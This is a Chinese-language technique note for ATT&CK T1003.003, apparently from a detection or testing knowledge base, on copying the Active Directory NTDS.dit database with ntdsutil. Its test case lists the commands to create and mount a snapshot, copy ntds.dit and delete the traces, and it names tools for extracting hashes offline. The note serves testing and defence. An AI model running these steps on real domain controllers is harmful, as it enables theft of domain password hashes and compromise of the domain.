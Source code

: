 # T1003.003-使用Ntdsutil获得NTDS.dit文件

## 描述

攻击者可能尝试访问或创建ActiveDirectory域数据库（NTDS.dit）的副本，以窃取凭据信息（如密码哈希）并获取域成员（设备、用户、访问权限）的信息。NTDS.dit是存储ActiveDirectory数据的核心数据库，包含域用户、组及其密码哈希（NTLM哈希），默认位于域控制器（DC）的`%SystemRoot%\NTDS\ntds.dit`（通常为`C:\Windows\NTDS\ntds.dit`）。访问该文件需域管理员权限或物理访问权限。

攻击者可通过以下工具和技术提取NTDS.dit：
- **Ntdsutil.exe**：Windows内置工具，创建NTDS.dit快照。
- **卷影副本（VolumeShadowCopy）**：通过VSS复制NTDS.dit。
- **Secretsdump.py**：离线提取哈希。
- **PWPR（Passcape Windows Password Recovery）**：结合ntdsutil提取哈希。

提取的哈希可用于密码破解或传递哈希攻击，导致域环境沦陷。`ntdsutil`提供快照功能，允许攻击者挂载并复制NTDS.dit文件。

## 测试案例

### 测试案例1：在域控制器上使用ntdsutil创建NTDS.dit快照
通过`ntdsutil.exe`创建快照并复制NTDS.dit文件。

**步骤**：
1. **创建快照**：
   ```cmd
   ntdsutil snapshot "activate instance ntds" create quit quit
   ```
   - 输出快照GUID，例如`{a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d}`。

2. **挂载快照**：
   ```cmd
   ntdsutil snapshot "mount {a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d}" quit quit
   ```

3. **复制NTDS.dit**：
   ```cmd
   copy C:\$SNAP_201212082315_VOLUMEC$\windows\NTDS\ntds.dit C:\Temp\ntds.dit
   ```
   - 注意路径大小写，`VOLUMEC`为快照卷名，需根据实际环境调整。

4. **卸载快照**：
   ```cmd
   ntdsutil snapshot "unmount {a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d}" quit quit
   ```

5. **删除快照**：
   ```cmd
   ntdsutil snapshot "delete {a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d}" quit quit
   ```

- **说明**：
  - 需结合PWPR或Secretsdump提取哈希。
- **权限**：域管理员或Administrators组权限。
- **支持系统**：WindowsServer2008及以上。
